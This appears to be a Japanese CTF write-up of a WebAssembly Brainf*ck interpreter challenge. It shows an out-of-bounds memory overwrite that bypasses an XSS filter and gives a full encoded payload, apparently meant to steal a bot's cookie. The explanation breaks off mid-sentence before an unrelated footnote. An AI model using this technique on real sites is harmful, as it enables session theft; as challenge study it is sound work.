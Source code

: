 322 pts, 7 solves

> 今はWebAssemblyの時代です。知らんけど。WebAssemblyを学ぶために、Brainf*ckのインタプリタをCで書いてwasmにコンパイルしてみました。
>
> http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/wasm-bf/

### 問題概要

- brainf*ckが実行できるサービスが与えられる
    - 実行時の出力結果が画面に表示される
- フラグのcookieを持ったbotに、適当なbrainf*ckプログラムを実行させることができる

### 解法

brainf*ckの実装を見ると
```c
void print_char(char c) {
  if (buffer_pointer + 4 >= buffer + BUFFER_SIZE) {
    flush();
  }

  // Prevent XSS!
  if (c == '<' || c == '>') {
    buffer_pointer[0] = '&';
    buffer_pointer[1] = c == '<' ? 'l' : 'g';
    buffer_pointer[2] = 't';
    buffer_pointer[3] = ';';
    buffer_pointer += 4;
  } else {
    *buffer_pointer = c;
    buffer_pointer++;
  }
}
```
によりXSSが封じられています。しかし、グローバル変数の宣言部分を見ると、
```c
unsigned char buffer[BUFFER_SIZE] = {0};
unsigned char *buffer_pointer = buffer;
unsigned char memory[MEMORY_SIZE] = {0};
char program[PROGRAM_MAX_SIZE] = {0};
```
`memory`から範囲外アクセスすると`buffer`を上書きすることが可能だとわかるので、あとはbrainf*ckのcode golfをするだけです。文字数制限は1000文字。小さい。

### 攻撃

最終的にできたコードはこれです（見やすいように改行しています）：
```brainfck
----[---->+<]>--.--[--->+<]>.++++.------.-[--->+<]>--.---[->++++<]>-.-.++++[->+++<]>+.[--->++<]>---
--.[->+++++<]>-.[--->++<]>.+++++[->+++<]>.-.---------.+++++++++++++..---.+++.[-->+<]>++++.+[--->+<]
>++.+++.------------.--.--[--->+<]>-.-----------.++++++.-.[------>+<]>.+[-->+<]>+++.+++++++++++++..
++[->++<]>.[-->+<]>+++.--[->++<]>.[-->+<]>+++++.-----[->++<]>.[-->+<]>++++.+++.-[--->+<]>--.--.++++
[->+++<]>.--------.++.----.--[-->+++++<]>.-------.+++++++++++.---.----.[->++++++++++<]>.+[--->+<]>+
+++.++++++.+[--->++++<]>-.+[-->+<]>++.+++++++++.+[--->+<]>.+++++++++++.------------.-[--->+<]>-.---
-----.--------.+++++++++.++++++.[++>---<]>.--[--->+<]>-.++++++++++++..----.--.----.-[++++>-----<]>.
<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<+<<<<<<<<<<<<<<<<<<<<<<<<
<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<-
```
文字数は839。やっている処理は


[^1]: この問題の本質ではないですが、fastify-formbodyは[qs](https://github.com/ljharb/qs)ではなくnodeのbuiltinである[querystring](https://nodejs.org/api/querystring.html)を使っているらしいです（ref. https://github.com/fastify/fastify-formbody/tree/v5.0.0#upgrading-from-4x ）。知らなかった。配列指定がいつもの`hoge[]=xxx`ではないので注意したい。